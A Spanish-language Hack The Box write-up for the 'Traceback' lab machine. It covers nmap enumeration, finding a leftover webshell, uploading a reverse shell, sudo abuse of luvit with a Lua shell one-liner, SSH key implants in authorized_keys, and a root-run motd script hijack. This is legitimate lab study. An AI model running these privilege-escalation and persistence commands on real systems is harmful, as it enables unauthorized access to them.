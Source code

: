 ```yaml
---
title: "HTB – Traceback"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2020/traceback.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
htb:
  status: true
  os: Linux
  developer: Xh4H
  level: Fácil
  date: 14 marzo 2020
  point: 20
---
```


## Enumeración

Al usar nmap utilizando **nmap -sCV -A 10.10.10.181** solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 01:42 BST
Nmap scan report for 10.10.10.181
Host is up (0.079s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
| 256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_ 256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=43037%PV=Y%DS=2%DC=T%G=Y%TM=5E9CF01
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=102%TI=Z%CI=Z%II=I%TS=A)OPS( 
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN( 
OS:R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT ADDRESS
1 77.21 ms 10.10.14.1
2 77.32 ms 10.10.10.181

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 24.47 seconds
```

Por lo que se empieza a buscar información en el código fuente de la página web, mientras se ejecuta la **dirbuster** para buscar paginas ocultas y poder acceder a ellas.

No se encuentra información importante por lo que se utiliza google para buscar nuevas soluciones. Encontramos que el creador posteo en su twitter algunas webshell interesantes.

![Traceback 1](/assets/images/post/2020/traceback1.png)

Al usar este nuevo listado en **dirbuster** con el nuevo listado descubrimos un archivo llamado smevk.php y al revisar el codigo de este en internet descubrimos que se puede acceder con el usuario admin/admin

![Traceback 2](/assets/images/post/2020/traceback2.png)

Acá nos permitirá crear nuestro propio archivo php, en este caso crearemos un php con una shell reverse, al ejecutarla accedemos a nuestra primera shell.

## 1° Shell

Al cargar esta shell accedemos al sistema con el usuario webadmin, por lo que nos ponemos a revisar sus carpetas, el historial y los permisos que este posee con **sudo –l**

Se ve que el usuario creó un archivo privesc.lua y despues lo elimina, sin antes ejecutarlo

```
Matching Defaults entries for webadmin on traceback:
	env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
	(sysadmin) NOPASSWD: /home/sysadmin/luvit
```

<p>Nos damos cuenta que podemos ejecutar un programa sin la password del usuario sysadmin, además creamos uno archivo lua, en el cual posea el comando <b>echo 'os.execute("/bin/sh")' > racso.lua</b>. Una vez que lo ejecutamos tal como se mostró en el historial podemos acceder a la shell del usuario</p>

## Shell Usuario

<p>Al escalar el privilegio obtenemos la primera flag, luego empezamos a buscar alguna otra forma de subir el privilegio a root, lo primero que vemos son los procesos <b>ps –aux</b> y nos llama la atención una que es ejecutada por <b>root</b> <i>(/bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/)</i> y lo que nos dice que se ejecuta el archivo 00-header cada vez que hay una conexión exitosa de SSH.</p>

Por otro lado, encontramos en la carpeta **.ssh** del usuario los archivos de autorización de las conexiones, es por ello que, ingresaremos nuestro propio ssh-rsa a este archivo para que sea válido al momento de conectarnos

- Creamos nuestro rsa con **ssh-keygen -t rsa**
- Copiamos este rsa.pub generado en el archivo **authorized_keys** escribiendo
	- echo “TODO LO QUE EL ARCHIVO ID_RSA.PUB CONTENGA” >> /home/sysadmin/.ssh/authorized_keys
- Ejecutamos una conexión ssh desde nuestro equipo utilizando el id_rsa creado **ssh –i id_rsa sysadmin@10.10.10.181**

Lo que permitirá acceder vía ssh a la máquina, el problema es que hasta el momento mantenemos el mismo nivel de usuario.

Al seguir investigando sobre update-motd.d que está en la carpeta /etc/ nos percatamos que el usuario sysadmin tiene permiso de escritura para el archivo 00-header, por lo que ingresaremos un comando donde nos mostrará la flag.

<p>Si escribimos echo <b>"cat /root/root.txt" >> /etc/update-motd.d/00-header</b> tal como averiguamos antes cargará este comando al momento de acceder a la termina vía ssh mostrandonos la flag al acceder, sin obtener la shell root.</p>

## Root shell

No es necesario acceder a esta shell si solo quieren obtener las flag, pero si de igual forma quieren acceder se puede usar el mecanismo anterior pero ahora guardando la clave publica en el archivo authorized_keys del root, para ello escribimos lo siguiente

```
echo "echo \" LO QUE ESTA EN EL ID_RSA.PUB \" >> /root/.ssh/authorized_keys" >> /etc/update-motd.d/00-header
```

Ingresamos nuevamente como sysadmin, para que ejecute el comando y ahora al salir de la maquina podremos volver a conectarnos, pero con el usuario root

```
root@traceback:~# id && date uid=0(root) gid=0(root) groups=0(root) Sun Apr
```

![Racso](https://www.hackthebox.com/badge/image/159593)